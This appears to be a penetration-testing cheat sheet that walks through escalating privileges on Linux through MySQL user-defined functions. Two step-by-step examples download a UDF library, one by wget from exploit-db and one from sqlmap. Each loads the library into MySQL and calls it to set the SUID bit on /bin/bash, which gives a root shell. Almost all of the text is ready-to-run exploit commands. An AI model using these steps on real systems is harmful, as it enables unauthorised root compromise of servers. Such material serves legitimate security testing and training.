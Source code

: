 Example 2 (Local via SUID)

Download UDF (Linux - 64 Bit) = https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/mysql/linux/64
Download UDF (Linux - 32 Bit) = https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/mysql/linux/32

Victim

```
ps aux | grep root                        //  Verify that MySQL is running as root
Save the UDF in the /tmp folder ( Example: /tmp/lib_mysqludf_sys.so)
mysql -u root -p

mysql> use mysql;
mysql> create table admin(line blob);
mysql> insert into admin values(load_file('/tmp/lib_mysqludf_sys.so'));
mysql> select * from admin into dumpfile '/usr/lib/lib_mysqludf_sys.so';
mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
mysql> select sys_exec('chmod +s /bin/bash');
mysql> exit
Wait a while
ls -la /bin/bash                         // Verify that the SUID bit is set 
/bin/bash -p
id && whoami
```
Example 3 (Explioting MySQL 4.x/5.0 (Linux))

UDF Link: https://www.exploit-db.com/exploits/1518

Victim
```
wget -O priv.c https://www.exploit-db.com/download/1518
gcc –g –shared –Wl,–soname,priv.so –o priv.so priv.c –lc
chmod 777 priv.so
mv priv.so /tmp/
mysql -u root -p 

mysql> create table priv(line blob);
mysql> insert into priv values(load_file(‘/tmp/priv.so’));
mysql> select * from priv into dumpfile ‘/usr/lib/mysql/plugin/priv.so’;
mysql> create function do_system returns integer soname ‘priv.so’;
mysql> select do_system(‘chmod +s /bin/bash’);
mysql>!sh
/bin/bash -p
id && whoami

// priv.c can be called anything
// The "priv" table name can be named anything
// Ensure that the path to the UDF (.so) is correct
// Replace IP & Port
```




